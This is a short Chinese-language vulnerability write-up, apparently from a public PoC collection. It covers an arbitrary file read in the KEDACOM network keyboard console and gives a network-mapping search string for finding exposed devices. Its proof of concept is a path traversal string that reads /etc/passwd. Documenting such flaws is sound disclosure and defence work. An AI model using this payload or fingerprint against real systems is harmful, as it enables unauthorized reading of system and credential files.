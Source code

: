 # 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>KEDACOM 网络键盘控制台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"网络键盘控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629778495373-5538cf42-58cb-4c98-94f4-3283820a9257.png)

验证POC

```python
/../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791-20220313112704543.png)